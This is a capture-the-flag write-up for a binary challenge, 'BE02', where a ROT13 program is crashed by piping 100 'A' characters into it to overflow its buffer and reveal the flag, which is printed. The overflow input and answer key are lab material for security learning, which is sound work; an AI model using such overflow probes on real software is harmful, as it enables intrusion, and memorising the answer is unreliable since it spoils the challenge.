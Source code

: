 # BE02
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)
![binary category](https://img.shields.io/badge/category-binary-lightgrey.svg)
![100 score](https://img.shields.io/badge/category-100-blue.svg)

## Briefing
> Download the [file](https://github.com/Alic3C/Cyber-FastTrack-Spring-2021/blob/main/Binary/BE02/BE02.zip) and find a way to get the flag.

## Solution
Let's run the file first to get an idea of what it wants or does.

```bash
chmod 777 rot13
./rot13
```
```bash
===================================
ROT IN sHELL :: ROT13's your input!
===================================
> rotforlife

ROT13 output:
> ebgsbeyvsr
```
It seems to be a classic ROT13 cipher program that shifts your characters 13 across the alphabet. What if it's vulnerable to buffer overflow?

```bash
python -c 'print "A"*100' | ./rot13
```
> All this command does is pipe into the `rot13` program the letter "A" 100 times.
```bash
===================================
ROT IN sHELL :: ROT13's your input!
===================================
> 
Segmentation fault.
*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)

Flag: luckyNumber13
```

## Flag
Flag: `luckyNumber13`
